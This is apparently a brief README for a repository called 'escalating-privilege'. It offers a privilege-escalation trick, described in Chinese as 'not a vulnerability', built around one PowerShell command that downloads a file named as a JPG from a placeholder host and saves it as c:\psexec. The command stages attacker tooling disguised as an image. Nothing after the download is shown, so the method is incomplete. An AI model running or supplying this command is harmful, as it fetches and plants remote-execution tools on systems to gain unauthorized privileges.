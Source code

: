 # escalating-privilege
easy file to escalating privilege
一种极其简单且适用的提权方式，非漏洞。
你可以通过powershell (new-object System.Net.WebClient).DownloadFile('http://www.xx.com/ff.jpg','c:\psexec')
